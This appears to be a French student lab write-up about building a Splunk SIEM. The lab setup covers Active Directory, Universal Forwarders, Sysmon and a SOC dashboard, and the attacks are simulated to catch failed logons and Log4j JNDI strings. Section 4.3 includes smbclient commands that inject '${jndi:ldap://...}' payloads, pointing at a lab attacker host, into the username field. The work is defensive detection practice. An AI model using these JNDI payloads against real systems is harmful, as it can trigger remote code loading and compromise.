

Projet SIEM (Splunk) - Déploiement d'un SOC sous Splunk
Contexte du projet (Méthode STAR)
- Situation : Nécessité de mettre en place une solution de centralisation et d'analyse des logs (SIEM) pour détecter des attaques de type brute-force et des tentatives d'exploitation de vulnérabilités (Log4j/JNDI).
- Tâche : Déployer un serveur Splunk Enterprise, configurer la remontée de logs Windows/Sysmon via des Universal Forwarders et créer un Dashboard de surveillance SOC en temps réel.
- Action : Configuration du port d'ingestion 9997, déploiement du fichier
inputs.confsur les agents, simulation d'attaques SMB depuis une VM Kali, et écriture de requêtes SPL/XML pour isoler l'événementEventCode=4625et la signaturejndi. - Résultat : Détection réussie des tentatives d'intrusion et remédiation des limites du parsing Windows via la recherche transverse sur le message brut (
_raw).
Objectif du TP : Détecter les attaques via Splunk avec le bon format de log + la bonne configuration
Bonus : Dashboard sur Splunk indiquant les vulnérabilités (peu importe le format)
2 VM Windows (1 normal + 1 server avec AD)
1 VM avec splunk (master) linux ou Windows
1 VM Linux (Kali / Parrot)
Log4J + CVE - 2026 - 21509
1. Architecture complète : Configuration du Contrôleur de Domaine (AD DS)
{kind=link}
1.1 Configuration d'une adresse IP Statique :
{kind=link}
Avant de pouvoir configurer notre serveur en tant que contrôleur de domaine il faut lui assigner une IP Statique, on ne laisse jamais une Adresse IP Automatique / DHCP sur un serveur, de toute manière on obtiendra une erreur lors de la mise en place de la forêt si on laisse l'adresse IP automatique
1.2 Renommage de la machine
{kind=link}
Il faut également renommer notre machine, cela permettra de nous faciliter la tâche lors de la connexion d'autre appareil au domaine, de plus c'est plus propre comme cela
1.3 Installation du Service AD DS :
{kind=link}
On peut désormais installer le service AD DS, cela permettra de mettre en place notre domaine puis de pouvoir promouvoir notre serveur en tant que contrôleur de domaine
1.4 Promouvoir le serveur en tant que contrôleur de domaine :
{kind=link}
On met en place une nouvelle forêt du nom de ben.lan, ainsi les machines clients pourront bien rejoindre le domaine
{kind=link}
Après redémarrage on constate que nous sommes bien connectés au domaine, ce n'est plus un compte local
2. Configuration du Poste Client Windows 11
Très petite configuration, il nous suffit juste de renommer la machine puis de la faire rejoindre le domaine, on pourra ensuite passer à la suite de cette manœuvre
2.1 Renommage de la machine :
{kind=link}
Encore une fois comme pour la machine serveur ce n'est pas une étape forcément essentielle mais ça sera beaucoup plus pratique et lisible pour la suite du TP
2.2 Ajout de l'adresse IP du serveur en tant que Serveur DNS
{kind=link}
Pour pouvoir rejoindre le domaine, il faut impérativement renseigner l'adresse IP de notre serveur en tant que Serveur DNS préféré, sinon nous ne pourrons jamais rejoindre le domaine
2.3 : Connexion au domaine
{kind=link}
On renseigne bien le nom dans la forêt dans la partie domaine
{kind=link}
Après avoir renseigné les identifiants de l'administrateur on arrive bien à se connecter au domaine, nous pouvons donc passer à la suite
3. Déploiement du SIEM Splunk & Agents Forwarders
3.1 Renommage de la machine
{kind=link}
3.2 Ajout du DNS server à la configuration réseau de la machine
{kind=link}
3.3 Connexion au domaine
{kind=link}
3.4 Mise en place de Splunk

{kind=link}
{kind=link}
On ajoute un port de réception de données sur le port 9997, ainsi tout ce qui passera par ce port nous sera visible
Par mesure de sécurité on va ajouter la règle de pare-feu suivante pour être sûr que le Traffic pourra circuler par ce port :
New-NetFirewallRule -DisplayName "Splunk 9997" -Direction Inbound -LocalPort 9997 -Protocol TCP -Action Allow
3.5 Installation de sysmon sur les machines
clientes et Serveur
Sysmon nous donne une visibilité sur les processus, couplé avec Splunk cela nous donnera des résultats plus précis et complets
{kind=link}
Installation de la sysmon sur la machine cliente
{kind=link}
Installation de sysmon sur la machine Serveur
Synergie avec Sysmon : Bien que la détection actuelle repose sur les échecs d'audit (Event ID 4625), l'installation préalable de Sysmon sur les machines offre une profondeur d'analyse supplémentaire. En cas d'exploitation réussie (passage d'un échec à un succès de connexion), Sysmon permettrait de surveiller les comportements post-exploitation, tels que la création de processus suspects par services.exe ou des connexions réseau sortantes inhabituelles initiées par le système, permettant ainsi de tracer l'arbre d'exécution complet de l'attaque.
3.6 Mise en place de Splunk Universal forwarder sur les deux VM Windows
Cela permettra d'envoyer toutes les données liées à ces deux machines directement sur notre Service Splunk via le port 9997
3.6.1 Mise en place de splunk Universal
Forwarder sur la VM cliente :
{kind=link}
On rentre bien l'adresse IP de notre VM Splunk ainsi que le port renseigner plus tôt
Dans le fichier local de Splunk on ajoute le fichier de conf suivant pour préciser ce qu'on souhaite analyser :
[default]
host = %COMPUTERNAME%
# Logs Windows Classiques
[WinEventLog://Application]
disabled = 0
index = main
[WinEventLog://Security]
disabled = 0
index = main
[WinEventLog://System]
disabled = 0
index = main
# Logs Sysmon
[WinEventLog://Microsoft-Windows-Sysmon/Operational]
disabled = 0
renderXml = 1
index = main
On redémarre le service pour que les changements soient bien pris en compte :
{kind=link}
La configuration a bien été prise en compte :
{kind=link}
Même chose pour la machine serveur :
{kind=link}
{kind=link}
Si on vérifie via powershell, notre configuration a bien été enregistré :
{kind=link}
3.7 Détection des données sur notre interface Splunk :
{kind=link}
À noter : la variable computename n'a pas bien été prise en compte, ce serait une piste d'amélioration à prendre en compte, de cette manière on aurait une analyse par poste client et serveur
4. Simulation d'Attaque (Kali Linux & Log4j/SMB)
4.1 Configuration réseau de la machine kali :
{kind=link}
4.2 Test de Ping
Ping vers l'AD :
{kind=link}
Ping vers la machine cliente :
{kind=link}
On arrive bien à communiquer avec nos futures victimes, on peut passer à la suite
4.3 Mise en place de l'attaque
smbclient -L //172.25.176.10 -U '${jndi:ldap://172.25.176.100/Exploit-AD}'
smbclient -L //172.25.176.30 -U '${jndi:ldap://172.25.176.100/Exploit-Client}'
On tente de se connecter de force à L'AD, cette connexion va forcément se solder par une erreur mais cela va nous donner de la matière côté splunk
Même chose pour la machine cliente :
smbclient -L //172.25.176.10 -U 'ATTACK_SERVER_jndi_ldap_exploit'
Pour que cette tentative de connexion soit bien remontée par notre serveur nous allons l'activer dans la "Gestion des stratégies de groupe" :
{kind=link}
Si on regarde côté observateur d'événements sur l'AD on voit bien qu'il y a eu une tentative de connexion
4.4 Résultat côté Splunk :
{kind=link}
Via cette recherche précise on trouve tous les événements qui concerne le code d'événements 4625 qui correspond à une tentative de connexion qui s'est resultée par un échec
On en retrouve bien une pour notre machine serveur :
{kind=link}
Ainsi que notre machine cliente :
Si on clique sur l'événement on a plus de détails sur la tentative d'attaque :
{kind=link}
On obtient même des informations sur la machine attaquante :
{kind=link}
5. Création du Dashboard SOC & Visualisation
5.1 Création du dashboard
On crée un nouveau tableau de bord standard :
{kind=link}
Mise en place du tableau via le code source en XML :
<dashboard version="1.1" theme="dark">
<label>SOC - Surveillance Exploitation (Log4j & CVE-2026)</label>
<row>
<panel>
<single>
<title>ALERTES LOG4J (Tentatives JNDI)</title>
<search>
<query>index="main" "*jndi:*" | stats count</query>
<earliest>0</earliest>
<latest></latest>
</search>
<option name="colorMode">block</option>
<option name="useColors">1</option>
</single>
</panel>
<panel>
<single>
<title>ÉCHECS DE CONNEXION (Brute Force)</title>
<search>
<query>index="main" EventCode=4625 | stats count</query>
<earliest>0</earliest>
<latest></latest>
</search>
<option name="colorMode">block</option>
<option name="useColors">1</option>
</single>
</panel>
</row>
</dashboard>
{kind=link}
Maintenant que notre dashboard est mis en place on va essayer de faire bouger les valeurs pour être sûr qu'il est pleinement opérationnel
Phase de Trace générée Visibilité Splunk l'attaque (Windows)
Injection du Échec d'audit (Event Indexation dans main via le Payload ID 4625) Forwarder
Tentative Log de sécurité avec Alerte rouge sur le Dashboard Log4j chaîne jndi "Alertes Log4j"
Brute Force Multiples échecs de Incrémentation du compteur connexion "Échecs de Connexion"
5.2 Utilisation du dashboard :
On essaye de nouveau de se connecter via nos VM serveur et client :
{kind=link}
Après plusieurs tentatives, j'ai réussi à faire en sorte que le dashboard affiche bien une alerte, le problème venait des accolades :
{kind=link}
On retente une connexion via l'AD et le serveur cette fois-ci sans accolade :
{kind=link}
5.3 Résultat :
Les deux nouvelles tentatives d'intrusion sont bien affichées :
{kind=link}
{kind=link}
6. Recommandations & Bilan Technique
Recommandations et remédiation : Pour contrer durablement ce type de menace, plusieurs axes doivent être suivis :
-
Mise à jour (Patching) : S'assurer que toutes les bibliothèques Java utilisent des versions de Log4j supérieures à 2.17.1.
-
Durcissement (Hardening) : Restreindre l'utilisation du protocole SMB aux seuls besoins métiers et désactiver les versions obsolètes (SMBv1).
-
Surveillance Continue : Maintenir l'audit avancé des ouvertures de session et affiner les patterns de détection JNDI dans le SIEM pour couvrir d'autres vecteurs (RDP, HTTP, etc.).
Analyse technique : Contournement des limitations de parsing Windows
Lors des tests avec le payload complet incluant des accolades (${jndi:ldap...}), nous avons constaté que le champ TargetUserName apparaissait vide dans Splunk.
* Cause : Windows considère ces caractères spéciaux comme invalides pour un nom d'utilisateur et échoue à peupler la balise de métadonnées de l'événement 4625.
* Solution SOC : La recherche du Dashboard a été adaptée pour effectuer une recherche transverse directement dans le message brut (_raw). Cette approche permet de détecter la signature jndi indépendamment de la qualité du parsing natif de l'OS.